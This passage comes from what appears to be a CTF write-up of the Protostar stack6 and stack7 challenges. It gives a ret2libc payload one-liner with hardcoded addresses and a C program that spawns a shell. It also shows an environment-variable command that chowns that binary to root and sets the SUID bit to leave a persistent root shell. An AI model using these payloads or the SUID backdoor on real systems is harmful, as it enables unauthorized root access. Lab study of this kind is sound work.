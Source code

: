 8. In our case, we have an existing `SHELL` variable located at 0xbffff8a9. To note is that we are only interested in the actual content of the variable, but in memory it is stored as a single string of the form `VARNAME=xxxxxxxx`. This means that to our address we have to add a little offset to leave out the name: "SHELL=" has 6 characters, so we add 6 to the address, obtaining 0xbffff8af
9. Our payload will have the following structure:
    - Buffer filler (80 bytes)
    - Pointer to system to overwrite $eip
    - Pointer to exit as the address to which system should jump when returning
    - Pointer to the content of SHELL as system argument
    - Whatever as exit argument
10. This is the result:

    ``` bash
    python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xaf\xf8\xff\xbf' + '\xff\xff\xff\xff'" | ./stack6
    ```
11. Executing the previous command should result in a root shell. However, on my system it does not work. Might be the pointers slightly off, or something else. Honestly, I've no idea.

A nice addition to this challenge is to make system give root permissions to whatever we want. This is not my idea, but sadly I can't find the source anymore. The approach is the same as the rest of the challenge, we just change the command that we pass to system. A nice example is writing a small C program that calls a shell with the SUID bit set:

```c
    int main(int argc, char **argv, char **envp) {
        gid_t gid;
        uid_t uid;

        gid = getegid();
        uid = geteuid();

        setresgid(gid, gid, gid);
        setresuid(uid, uid, uid);

        system("/bin/bash");
    }
```

We then compile the file and create an environment variable that will change the owner and the permissions of the binary: `export SUID="/bin/chown root:root /home/user/shell; /bin/chmod 4755 /home/user/shell"`. With the approach explained in the previous steps we retrieve the pointer to the string command, and we pass that as argument to system. After running properly, our binary file should have root owner and SUID set, and running it will result in a root shell.

### [Stack 07]
Looking through the disassembled program for specific instructions.

```c
char *getpath(){
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xb0000000) == 0xb0000000) {
        printf("bzzzt (%p)\n", ret);
        _exit(1);
    }

    printf("got path %s\n", buffer);
    return strdup(buffer);
```